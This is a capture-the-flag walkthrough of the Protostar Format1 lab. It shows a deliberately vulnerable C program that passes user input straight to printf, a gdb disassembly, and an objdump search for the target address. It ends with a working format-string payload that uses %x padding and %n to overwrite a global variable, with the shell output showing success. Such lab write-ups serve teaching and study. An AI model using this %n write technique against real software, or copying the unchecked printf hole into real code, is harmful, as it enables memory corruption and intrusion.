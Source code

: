 # PROTOSTAR : FORMAT 1
[Protostar:Format1](https://exploit.education/protostar/format-one/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Format Strings

The above code is vulnerable to Format Strings since the **printf** function is not checking the format of the input, which can contain format specfiers starting with **%**. It can cause memory leak and memory write using **%n**.

Below is the disassembly of the **vuln()** function.
```
user@protostar:/opt/protostar/bin$ gdb -q format1
Reading symbols from /opt/protostar/bin/format1...done.
(gdb) set disassembly-flavor intel
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x18
0x080483fa <vuln+6>:    mov    eax,DWORD PTR [ebp+0x8]
0x080483fd <vuln+9>:    mov    DWORD PTR [esp],eax
0x08048400 <vuln+12>:   call   0x8048320 <printf@plt>
0x08048405 <vuln+17>:   mov    eax,ds:0x8049638
0x0804840a <vuln+22>:   test   eax,eax
0x0804840c <vuln+24>:   je     0x804841a <vuln+38>
0x0804840e <vuln+26>:   mov    DWORD PTR [esp],0x8048500
0x08048415 <vuln+33>:   call   0x8048330 <puts@plt>
0x0804841a <vuln+38>:   leave  
0x0804841b <vuln+39>:   ret    
End of assembler dump.
```

Let's supply some format specifiers and check what output we get.
```
user@protostar:/opt/protostar/bin$ ./format1 %x.%x.%x
804960c.bffff7d8.8048469 
```

As you can see the format specifier **%x** leaks the stack addresses in hexadecimal format. Now lets provide the **target** variable address and get our padding right.

Before doing that let's find the address of the **target variable** using objdump.
```
user@protostar:/opt/protostar/bin$ objdump -t format1 | grep "target"
08049638 g     O .bss   00000004              target
```

```
user@protostar:/opt/protostar/bin$ ./format1 $(python -c "print '\x38\x96\x04\x08' + '\x38\x96\x04\x08'+ '%x.'*128 + '%x.'")
88804960c.bffff658.8048469.b7fd8304.b7fd7ff4.bffff658.8048435.bffff824.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6d8.b7eadc76.2.bffff704.bffff710.b7fe1848.bffff6c0.ffffffff.b7ffeff4.804824d.1.bffff6c0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6d8.698b158d.43dfa39d.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff704.8048450.8048440.b7ff1040.bffff6fc.b7fff8f8.2.bffff81a.bffff824.0.bffff9b0.bffff9be.bffff9d2.bffff9f4.bffffa07.bffffa11.bfffff01.bfffff3f.bfffff53.bfffff6a.bfffff7b.bfffff83.bfffff93.bfffffa0.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.178bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7fb.1f.bffffff2.f.bffff80b.0.0.0.86000000.eac74b88.a4794b33.264fe78.697c52e9.363836.0.0.2f2e0000.6d726f66.317461.8049638.user@protostar:/opt/protostar/bin$ 
```


So you can see we got our padding lets replace the last **%x** format specifier with **%n** which will write number of bytes written so far to the **target** variable address and change its value.

You see we successfully changed the **target** variable value using **Format Strings Vulnerability**.

```
user@protostar:/opt/protostar/bin$ ./format1 $(python -c "print '\x38\x96\x04\x08' + '\x38\x96\x04\x08'+ '%x.'*128 + '%n.'")
88804960c.bffff658.8048469.b7fd8304.b7fd7ff4.bffff658.8048435.bffff824.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6d8.b7eadc76.2.bffff704.bffff710.b7fe1848.bffff6c0.ffffffff.b7ffeff4.804824d.1.bffff6c0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6d8.6360bf92.49340982.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff704.8048450.8048440.b7ff1040.bffff6fc.b7fff8f8.2.bffff81a.bffff824.0.bffff9b0.bffff9be.bffff9d2.bffff9f4.bffffa07.bffffa11.bfffff01.bfffff3f.bfffff53.bfffff6a.bfffff7b.bfffff83.bfffff93.bfffffa0.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.178bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff7fb.1f.bffffff2.f.bffff80b.0.0.0.ec000000.3f1a7c06.8176ce46.88f1a6de.69cd784a.363836.0.0.2f2e0000.6d726f66.317461..you have modified the target :)
```